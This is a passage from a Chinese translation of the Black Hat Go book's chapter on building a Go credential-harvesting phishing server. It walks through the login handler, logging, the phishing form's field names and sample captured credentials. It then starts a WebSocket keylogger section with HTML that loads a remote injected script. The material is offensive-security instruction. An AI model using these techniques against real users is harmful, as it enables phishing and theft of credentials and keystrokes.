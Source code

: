 代码 4-8: Credential-harvesting 服务 \([https://github.com/blackhat-go/bhg/ch-4/credential\_harvester/main.go/](https://github.com/blackhat-go/bhg/ch-4/credential_harvester/main.go/)\)

值得注意的第一件事是导入`github.com/Sirupsen/logrus`包。这是一个日志包，用来代替Go的`log`包。该包支持更多的日志配置选型来更好地处理错误。使用该包前需要先运行`go get`获取。

下一步，定义`login()`处理函数。希望这是个熟悉的模式。在该函数里，使用`log.WithFields()`记录捕获的数据。显示当前时间，请求者的用户带来，IP地址。也调用`FormValue(string)`捕获提交的`username (_user)`和`password (_pass)`的值。从`index.html`中获取这些值，并且通过定位表单的输入元素来查找`username`和`password`。服务需要明确地与存在于登录表单中的字段名称保持一致。

下面的片段是从`index.html`中提取的，显示相关的输入项，为了清晰起见元素名称加粗:

```markup
<td class="input"><input name="_user" id="rcmloginuser" required="required" size="40" autocapitalize="off" autocomplete="off" type="text"></td>
<td class="input"><input name="_pass" id="rcmloginpwd" required="required" size="40" autocapitalize="off" autocomplete="off" type="password"></td>
```

在`main()`函数中，先打开文件用来保存捕获的数据，然后使用`log.SetOutput(io.Writer)`，传入刚创建的文件柄来配置日志，以便将数据写到文件中。接下来创建新路由，并加上处理函数`login()`。

启动服务之前，还要做一件看起来陌生的事情：告诉路由支持文件夹里的静态文件。这样Go服务就好明确地知道静态文件（图像， JavaScript，HTML）的位置。Go简化了这一过程，并提供了针对遍历目录攻击的保护。由里而外，使用`http.Dir(string)`定义希望提供文件的目录。然后将其传入到`http.FileServer(FileSystem)`，这样就为该目录创建了一个`http.Handler`。使用`PathPrefix(string)`将其加到路由上。使用`/`作为路径前缀来匹配任何尚未找到匹配的请求。注意，默认情况下从`FileServer`返回的处理器支持目录索引。这可能会泄露某些信息。当然也可以将其禁用，但是这里先不涉及了。

最后，像之前那样启动服务。构建并执行代码4-8中的代码之后，打开浏览器并浏览`http://localhost:8080`。尝试在表单中提交`username 和 password`。然后回到终端退出程序，查看`credentials.txt`显示如下： \`\`\`shell script $ go build -o credential\_harvester $ ./credential\_harvester ^C $ cat credentials.txt INFO\[0038\] login attempt ip\_address="127.0.0.1:34040" password="p@ssw0rd1!" time="2020-02-13 21:29:37.048572849 -0800 PST" user-agent="Mozilla/5.0 \(X11; Ubuntu; Linux x86\_64; rv:51.0\) Gecko/20100101 Firefox/51.0" username=bob

```text
 看看这些日志！可以看到用户名为bob，密码为p@ssw0rd1!。恶意的服务成功地处理了POST表单，捕获到输入的凭证，并保存到能离线查看的文件中。作为攻击者，您可以尝试针对目标组织使用这些凭证，并继续进行进一步的攻击。

 在下一节中，将学习这种凭证收集技术的变体。不是等待表单提交，而是创建键盘记录器来实时捕获按键。

 ## 使用WebSocket API记录按键

 `WebSocket API (WebSockets)`是一种全双工协议，近年来越来越流行，现在很多浏览器都支持了。为web应用服务器和客户端提供了一种有效地相互通信的方式。最重要的是，服务器不需要轮询就能向客户端发送消息。

`WebSockets`非常适合用于像聊天和游戏这种”实时“的应用，但同样也可以用来做恶，像在程序里注入按键记录器来捕获用户的按键。首先，假设已经确定了一个易受到跨站点脚本攻击(第三方可以在受害者的浏览器中运行任意JavaScript的缺陷)的应用程序，或者已经损坏了一个web服务器，可以修改程序的源代码。这两种情况都应该允许包含一个远程JavaScript文件。构建服务器的基础结构来处理和客户端的WebSocket连接并处理传入的按键。

为了演示，我们使用JS Bin (*http://jsbin.com*)来测试负载。JS Bin是一个在线平台，开发者可以在这里测试他们的HTML和JavaScript代码。在浏览器中访问JS Bin，并在左边栏粘贴下面的HTML，完全替换掉默认代码:

```html
<!DOCTYPE html>
<html>
<head>
  <title>Loggin</title>
</head>
<body>
<script src='http://localhost:8080/k.js'></script>
<form action='/login' method='post'> <input name='username'/>
<input name='password'/>
<input type="submit"/>
  </form>
</body>
</html>
```
